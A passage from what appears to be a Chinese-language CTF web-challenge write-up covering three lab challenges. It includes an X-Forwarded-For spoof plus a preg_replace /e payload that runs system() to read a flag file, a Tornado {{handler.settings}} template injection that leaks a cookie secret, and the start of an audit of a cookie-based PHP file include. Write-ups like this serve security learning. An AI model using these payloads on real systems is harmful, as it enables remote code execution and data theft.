    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
```

- 需要设置XFF头为127.0.0.1（X-Forwarded-For:127.0.0.1）；
- GET请求传入三个参数pat、rep、sub然后进行`preg_replace`正则匹配；
  - `preg_replace`是一个php中的函数，主要用于执行一个正则表达式的搜索和替换
    - preg_replace(正则表达式,主字符串)
    - preg_replace(正则表达式,替换字符串,主字符串)
  - **/e参数导致代码执行的问题**：当pat值和sub值相同，并且pat使用了**/e**这个后缀，rep的代码会执行；

最终burp构造请求：

```http
GET /index.php?pat=/123/e&rep=system("cat+s3chahahaDir/flag/flag.php")&sub=123 HTTP/1.1
Host: 61.147.171.105:61199
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://61.147.171.105:61199/
Cookie: PHPSESSID=chhhrdiovp9d0lhfn6t8knsr83
Upgrade-Insecure-Requests: 1
X-Forwarded-For:127.0.0.1
```

- ”+“号在url中会被解释成空格号，这里用%20也行

得到flag

### 31. easytornado

题目给到提示：

```
/hints.txt
md5(cookie_secret+md5(filename))

/flag.txt
flag in /fllllllllllllag
```

尝试请求fllllllllllllag，结果报错：


构造payload去拿到`cookie_secret`：

```
/error?msg={{handler.settings}}
```

- handler.settings：tornado模板中内置的环境配置信息名称，通过handler.settings可以访问到环境配置的一些信息，看到tornado模板基本上可以通过handler.settings一把梭。


接着按照hints.txt的意思进行md5加密即可得到filehash的值，构造payload拿到flag：

```
/file?filename=/fllllllllllllag&filehash=5919bc387063cde3e8a998a66fc4966b
```

### 32. fileinclude

CTRL U查看源代码进行代码审计：

```php+HTML
<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
```

